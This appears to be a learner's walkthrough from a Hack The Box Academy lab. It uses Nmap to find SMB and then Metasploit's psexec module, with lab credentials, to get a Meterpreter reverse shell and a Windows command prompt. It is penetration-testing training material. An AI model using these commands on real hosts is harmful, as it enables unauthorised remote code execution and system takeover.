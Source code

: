### Let's take this Nmap scan:
```shell
nmap -sC -sV -Pn 10.129.164.25

PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Host script results:
|_nbstat: NetBIOS name: nil, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:04:e2 (VMware)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-09-09T21:03:31
|_  start_date: N/A
```

#### Searching Within Metasploit
```shell-session
msf6 > search smb

Matching Modules
================
...
...
...
56   exploit/windows/smb/psexec
...
...
```
Let's look at one module, in particular, to understand it within the context of payloads.
-> `56 exploit/windows/smb/psexec`

|Output|Meaning|
|---|---|
|`56`|The number assigned to the module in the table within the context of the search. This number makes it easier to select. We can use the command `use 56` to select the module.|
|`exploit/`|This defines the type of module. In this case, this is an exploit module. Many exploit modules in MSF include the payload that attempts to establish a shell session.|
|`windows/`|This defines the platform we are targeting. In this case, we know the target is Windows, so the exploit and payload will be for Windows.|
|`smb/`|This defines the service for which the payload in the module is written.|
|`psexec`|This defines the tool that will get uploaded to the target system if it is vulnerable.|

#### Option Selection
```shell
msf6 > use 56
```

#### Examining an Exploit's Options
```shell-session
msf6 exploit(windows/smb/psexec) > options
msf6 exploit(windows/smb/psexec) > show options
```

#### Setting Options
```shell
msf6 exploit(windows/smb/psexec) > set RHOSTS 10.129.180.71
RHOSTS => 10.129.180.71
msf6 exploit(windows/smb/psexec) > set SMBSHARE ADMIN$
SMBSHARE => ADMIN$
msf6 exploit(windows/smb/psexec) > set SMBPass HTB_@cademy_stdnt!
SMBPass => HTB_@cademy_stdnt!
msf6 exploit(windows/smb/psexec) > set SMBUser htb-student
SMBUser => htb-student
msf6 exploit(windows/smb/psexec) > set LHOST 10.10.14.222
LHOST => 10.10.14.222
```
These settings will ensure that our payload is delivered to the proper target (`RHOSTS`), uploaded to the default administrative share (`ADMIN$`) utilizing credentials (`SMBPass` & `SMBUser`), then initiate a reverse shell connection with our local host machine (`LHOST`).

#### Exploits Away
```shell
msf6 exploit(windows/smb/psexec) > exploit

meterpreter >
```

#### Interactive Shell
```shell
meterpreter > shell
Process 604 created.
Channel 1 created.
Microsoft Windows [Version 10.0.18362.1256]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>
```


### Questions

Just need to exploit the server with given credentials and psexec module of Metasploit. Like above.